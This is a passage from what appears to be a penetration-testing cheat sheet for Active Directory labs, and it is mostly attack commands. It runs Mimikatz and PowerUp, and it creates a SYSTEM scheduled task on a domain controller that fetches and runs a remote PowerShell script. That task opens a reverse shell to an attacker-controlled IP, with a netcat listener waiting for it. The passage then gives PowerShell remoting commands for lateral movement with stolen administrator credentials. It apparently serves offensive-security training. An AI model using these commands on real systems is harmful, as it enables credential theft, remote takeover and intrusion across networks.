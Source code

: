 	# Run mimikatz
	Invoke-Mimikatz
    
    #PowerUP can be used for native upgrades in Windows environments
    . .\PowerUP.ps1
    Invoke-AllChecks –Verbose
    ```
    
- **Jenkins**
    
    ```powershell
    .\nc64.exe -l -p 443
    
    schtasks /create /S dc.organicsecurity.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job01" /TR "powershell.exe -c 'iex ( iwr <http://192.168.100.XX/dakiya.ps1>  -UseBasicParsing); Dakiya -Reverse -IPAddress 192.168.100.YY -Port 443'"
    
    schtasks /Run /S dc.organicsecurity.local /TN "Job01"
    
    schtasks /Query /S dc.organicsecurity.local
    
    ```
    

# Lateral Movement & Persistance

- Execute command using powershell remoting
    
    ```powershell
    $sess = New-PSSession -ComputerName <computer/list_of_servers>
    Enter-PSSession -$sess
    
	# Connect to a PS-Session of a remote user

    Enter-PSSession -ComputerName <server_name>
	Enter-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
	
	# Now we can access any machine with valid username and password as mimikatz

	Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator

    
    Invoke-Command -Scriptblock {Get-Process} -ComputerName <computer>
    Invoke-Command -Scriptblock ${function:Get-Process} -ComputerName <computer>
    Invoke-Command -FilePath <script.ps1> -ComputerName <Get-Content computers.txt>
	
	# Execute Stateful commands using Invoke-Command ( persistence )
	$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
	Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
	Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
    